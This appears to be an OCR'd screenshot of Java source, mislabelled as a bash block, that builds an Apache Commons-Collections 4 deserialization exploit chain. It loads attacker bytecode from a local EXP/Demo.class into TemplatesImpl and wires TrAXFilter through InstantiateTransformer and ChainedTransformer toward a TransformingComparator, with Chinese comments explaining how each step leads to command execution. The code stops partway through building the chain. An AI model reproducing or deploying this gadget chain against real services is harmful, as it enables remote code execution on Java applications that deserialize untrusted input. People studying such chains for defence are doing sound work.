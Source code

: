 ```bash

import javax.xml.transform.Templates;
import java.io.*;
import java.lang.annotation.Target;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.Proxy;
import java.nio.file.Files;
import java.nio.file.Paths;
import java.util.HashMap;
import java.util.Map;
import java.util.PriorityQueue;

public class CC4TransformingComparator {
    public static void main(String[] args) throws Exception{

        TemplatesImpl Templates = new TemplatesImpl();
        //_name赋值，否则代码return中止
        Class tc = Templates.getClass();
        Field nameField = tc.getDeclaredField("_name");
        nameField.setAccessible(true);
        nameField.set(Templates,"aaa");
        //private byte[][] _bytecodes = null;如果为null，报出异常；
        //同时满足这个loader.defineClass(_bytecodes[i]);
        //Class defineClass(final byte[] b) {
        //            return defineClass(null, b, 0, b.length);
        //        }
        Field bytecodeField = tc.getDeclaredField("_bytecodes");
        bytecodeField.setAccessible(true);
        //一维数组满足defineClass参数从而命令执行
        byte[] code = Files.readAllBytes(Paths.get("D://Tomcat/CC/target/classes/EXP/Demo.class"));
        //二维数组满足：
        // private byte[][] _bytecodes = null;如果为null，报出异常；
        //同时满足这个loader.defineClass(_bytecodes[i]);
        byte[][] codes = {code};
        bytecodeField.set(Templates,codes);
//    避免_tfactory 为空指针而报错
//    TemplatesImpl.TransletClassLoader loader = (TemplatesImpl.TransletClassLoader)
//            AccessController.doPrivileged(new PrivilegedAction() {
//                public Object run() {
//                    return new TemplatesImpl.TransletClassLoader(ObjectFactory.findClassLoader(),_tfactory.getExternalExtensionsMap());
//                }
//            });
//        Field tfactoryField = tc.getDeclaredField("_tfactory");
//        tfactoryField.setAccessible(true);
//        tfactoryField.set(Templates,new TransformerFactoryImpl());
//        Templates.newTransformer();

        InstantiateTransformer instantiateTransformer = new InstantiateTransformer(new Class[]{Templates.class},new Object[]{Templates});
//        instantiateTransformer.transform(TrAXFilter.class);//类不能序列化，class 可以
        Transformer[] Transformers = new Transformer[]{
                new ConstantTransformer(TrAXFilter.class),
                instantiateTransformer

        };

        ChainedTransformer chainedTransformer = new ChainedTransformer(Transformers);

        TransformingComparator transformingComparator = new TransformingComparator(new ConstantTransformer<>(1));
```